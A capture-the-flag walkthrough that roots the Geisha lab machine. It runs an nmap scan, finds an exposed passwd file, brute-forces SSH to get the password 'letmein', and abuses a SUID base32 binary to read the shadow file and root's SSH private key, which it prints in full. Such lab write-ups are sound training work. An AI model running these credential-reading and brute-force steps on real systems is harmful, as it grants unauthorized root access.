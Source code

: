 ```yaml
---
title: Geisha-:-1
categories: [Proving Grounds Play]
tags: [Lateral Movement, Password Bruteforce, SUIDs, base32, PrivEsc]
image:
  path: /Vulnhub-Files/img/Geisha/Untitled%201.png
  alt:  Geisha Machine 🖥️
---
```


| Machine     | <center>Details</center>                                                        |
| ----------- | ------------------------------------------------------------------------------- |
| **Vulnhub** | https://vulnhub.com/entry/geisha-1,481/                                         |
| **Level**   | <center>Beginner to Intermediate</center>                                       |
| **Creator** | <center>[SunCSR Team](https://www.vulnhub.com/author/suncsr-team,696/)</center> |


### Lets check the IP Now ⤵️

![Untitled](/Vulnhub-Files/img/Geisha/Untitled.png)

```bash
IP : 192.168.249.133
```
{: .nolineno}

## Port Scan Results ⬇️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Giesha]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.133                                              
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-01 06:00 EDT
Nmap scan report for 192.168.249.133
Host is up (0.00074s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1bf25dcd8913f249009f8cf9eba2a20c (RSA)
|   256 315a652eab0f59abe0333a0cfc49e05f (ECDSA)
|_  256 c6a735149613f8de1ee2bce7c7668bac (ED25519)
80/tcp   open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Geisha
|_http-server-header: Apache/2.4.38 (Debian)
7080/tcp open  ssl/http LiteSpeed httpd
|_http-title: Geisha
| ssl-cert: Subject: commonName=geisha/organizationName=webadmin/countryName=US
| Not valid before: 2020-05-09T14:01:34
|_Not valid after:  2022-05-09T14:01:34
|_http-server-header: LiteSpeed
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
7125/tcp open  http     nginx 1.17.10
|_http-server-header: nginx/1.17.10
|_http-title: Geisha
8088/tcp open  http     LiteSpeed httpd
|_http-title: Geisha
|_http-server-header: LiteSpeed
9198/tcp open  http     SimpleHTTPServer 0.6 (Python 2.7.16)
|_http-title: Geisha
|_http-server-header: SimpleHTTP/0.6 Python/2.7.16
MAC Address: 00:0C:29:47:3A:B7 (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## Web Enumeration ➡️

Now That I have 4 http ports and 1 http port with ssl certificate So All have a common type/Interface of web page ⤵️

![Untitled](/Vulnhub-Files/img/Geisha/Untitled%201.png)

Now with `feroxbuster` as a Directory Traversal tool I found some file from port `7125` file name `passwd`.

```bash
└─$ cat passwd                                                                                                             
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
geisha:x:1000:1000:geisha,,,:/home/geisha:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lsadm:x:998:1001::/:/sbin/nologin
```
{: .nolineno}

As I got a username as `geisha` so lets try ssh brute force with hydra ➡️

![Untitled](/Vulnhub-Files/img/Geisha/Untitled%202.png)

```bash
Credentials ➡️
geisha  :  letmein
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Geisha/Untitled%203.png)

Now lets find SUIDs commands ➡️

![Untitled](/Vulnhub-Files/img/Geisha/Untitled%204.png)

So lets run it ⤵️

![Untitled](/Vulnhub-Files/img/Geisha/Untitled%205.png)

I have got a shadow file but I cant read it so lets use above command to read it .

![Untitled](/Vulnhub-Files/img/Geisha/Untitled%206.png)

Now lets run `base32 shadow | base32 --decode` .

![Untitled](/Vulnhub-Files/img/Geisha/Untitled%207.png)

Now lets try something else like accessing the id_rsa from root .

```bash
geisha@geisha:/$ base32 /root/.ssh/id_rsa | base32 --decode
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA43eVw/8oSsnOSPCSyhVEnt01fIwy1YZUpEMPQ8pPkwX5uPh4
OZXrITY3JqYSCFcgJS34/TQkKLp7iG2WGmnno/Op4GchXEdSklwoGOKNA22l7pX5
89FAL1XSEBCtzlrCrksvfX08+y7tS/I8s41w4aC1TDd5o8c1Kx5lfwl7qw0ZMlbd
5yeAUhuxuvxo/KFqiUUfpcpoBf3oT2K97/bZr059VU8T4wd5LkCzKEKmK5ebWIB6
fgIfxyhEm/o3dl1lhegTtzC6PtlhuT7ty//mqEeMuipwH3ln61fHXs72LI/vTx26
TSSmzHo8zZt+/lwrgroh0ByXbCtDaZjo4HAFfQIDAQABAoIBAQCRXy/b3wpFIcww
WW+2rvj3/q/cNU2XoQ4fHKx4yqcocz0xtbpAM0veIeQFU0VbBzOID2V9jQE+9k9U
1ZSEtQJRibwbqk1ryDlBSJxnqwIsGrtdS4Q/CpBWsCZcFgy+QMsC0RI8xPlgHpGR
Y/LfXZmy2R6E4z9eKEYWlIqRMeJTYgqsP6ZR4SOLuZS1Aq/lq/v9jqGs/SQenjRb
8zt1BoqCfOp5TtY1NoBLqaPwmDt8+rlQt1IM+2aYmxdUkLFTcMpCGMADggggtnR+
10pZkA6wM8/FlxyAFcNwt+H3xu5VKuQKdqTfh1EuO3c34UmuS1qnidHO1rYWOhYO
jceQYzoBAoGBAP/Ml6cp2OWqrheJS9Pgnvz82n+s9yM5raKNnH57j0sbEp++eG7o
2po5/vrLBcCHGqZ7+RNFXDmRBEMToru/m2RikSVYk8QHLxVZJt5iB3tcxmglGJj/
cLkGM71JqjHX/edwu2nNu14m4l1JV9LGvvHR5m6uU5cQvdcMTsRpkuxdAoGBAOOl
THxiQ6R6HkOt9w/WrKDIeGskIXj/P/79aB/2p17M6K+cy75OOYzqkDPENrxK8bub
RaTzq4Zl2pAqxvsv/CHuJU/xHs9T3Ox7A1hWqnOOk2f0KBmhQTYBs2OKqXXZotHH
xvkOgc0fqRm1QYlCK2lyBBM14O5Isud1ZZXLUOuhAoGBAIBds1z36xiV5nd5NsxE
1IQwf5XCvuK2dyQz3Gy8pNQT6eywMM+3mrv6jrJcX66WHhGd9QhurjFVTMY8fFWr
edeOfzg2kzC0SjR0YMUIfKizjf2FYCqnRXIUYrKC3R3WPlx+fg5CZ9x/tukJfUEQ
65F+vBye7uPISvw3+O8n68shAoGABXMyppOvrONjkBk9Hfr0vRCvmVkPGBd8T71/
XayJC0L6myG02wSCajY/Z43eBZoBuY0ZGL7gr2IG3oa3ptHaRnGuIQDTzQDj/CFh
zh6dDBEwxD9bKmnq5sEZq1tpfTHNrRoMUHAheWi1orDtNb0Izwh0woT6spm49sOf
v/tTH6ECgYEA/tBeKSVGm0UxGrjpQmhW/9Po62JNz6ZBaTELm3paaxqGtA+0HD0M
OuzD6TBG6zBF6jW8VLQfiQzIMEUcGa8iJXhI6bemiX6Te1PWC8NMMULhCjObMjCv
bf+qz0sVYfPb95SQb4vvFjp5XDVdAdtQov7s7XmHyJbZ48r8ISHm98s=
-----END RSA PRIVATE KEY-----
```
{: .nolineno}

Now lets create id_rsa file in /tmp directory and give permission 600 to it , then execute it as ssh as root .

![Untitled](/Vulnhub-Files/img/Geisha/Untitled%208.png)

Now I am root cool !!

```bash
root@geisha:~# cat flag.txt
Flag{Sun_CTF_220_5_G31sha}
root@geisha:~#
```

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }